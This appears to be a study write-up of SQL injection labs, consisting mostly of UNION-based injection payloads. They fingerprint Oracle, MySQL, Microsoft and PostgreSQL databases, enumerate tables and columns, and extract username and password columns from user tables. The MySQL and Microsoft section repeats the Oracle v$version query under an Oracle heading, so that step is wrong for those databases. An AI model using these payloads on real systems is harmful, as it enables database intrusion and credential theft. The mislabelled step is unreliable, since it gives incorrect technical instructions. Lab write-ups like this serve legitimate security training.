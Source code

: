 # Examining the database in SQL injection attacks

| Database type | Query |
| ------------- | ------| 
|Microsoft 		|	SELECT @@version |
|Oracle 		|	SELECT * FROM v$version |
|PostgreSQL 	| 	SELECT version() |
|MySQL 			|	SELECT @@version |

## Lab - SQL injection attack, querying the database type and version on Oracle

Steps: 

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 --
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' FROM DUAL --
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```
```
UNION SELECT * FROM v$version where banner LIKE 'oracle%'--

```

## SQL injection attack, querying the database type and version on MySQL and Microsoft


Steps

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 #
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' #
```

3. Retrieve Oracle database banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```

`#` = %23

## Listing the contents of the database


## Lab: SQL injection attack, listing the database contents on non-Oracle databases

Steps:

1. Determine the number of columns and column data type
```
category=Pets' order by 1, 2 --
category=Pets' union select 'a', 'a' --
```

2. Find all table name contains '%user%' | `%` = %25
```
category=Pets' union select table_name, 'a' from information_schema.tables where table_name like '%user%'--
```

3. List the table columns
```
category=Pets' union select table_name, column_name from information_schema.columns where table_name='pg_user' --
category=Pets' union select table_name, column_name from information_schema.columns where table_name='users_rfankd' -- 
```

4. Retrieve the table contents

```
category=Pets' union select username_grhpij, password_rhddiy from users_rfankd -- 

category=Pets' union select username_grhpij || ':' || password_rhddiy, null from users_rfankd -- 
```

## Lab: SQL injection attack, listing the database contents on Oracle

steps:
1. Determine the number of columns and columns data type
```
' ORDER BY 1,2 
' UNION SELECT 'a', 'a' FROM DUAL --
```

2. Examine the database type.
```
' UNION SELECT banner ,NULL FROM v$version --
```

3. Find all table contains 'U%' | `%` = %25
```
' UNION SELECT table_name,'a' FROM all_tables WHERE table_name like 'U%25' --
```

4. List the table columns
```
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_WNFXKC'
``` 

5. Retrieve the table contents
```
' UNION SELECT USERNAME_ZATYRE, PASSWORD_FIACJD FROM USERS_WNFXKC --
```
